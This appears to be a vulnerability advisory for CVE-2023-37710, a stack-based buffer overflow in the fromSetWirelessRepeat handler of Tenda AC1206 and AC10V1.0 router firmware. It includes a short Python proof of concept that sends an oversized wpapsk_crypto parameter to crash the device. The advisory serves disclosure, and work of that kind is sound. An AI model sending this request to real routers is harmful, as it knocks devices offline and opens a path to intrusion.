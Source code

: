 # Tenda AC1206, AC10V1.0 Vulnerability

This vulnerability lies in the `fromSetWirelessRepeat` function which influences the latest version of Tenda AC1206 and AC10V1.0. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip) and [V15.03.06.47](https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `wpapsk_crypto`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `wpapsk_cryptovalue`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSetWirelessRepeat`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSetWirelessRepeat?"
url += "wpapsk_crypto=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

* 2023-07-10: CVE ID assigned (CVE-2023-37710)
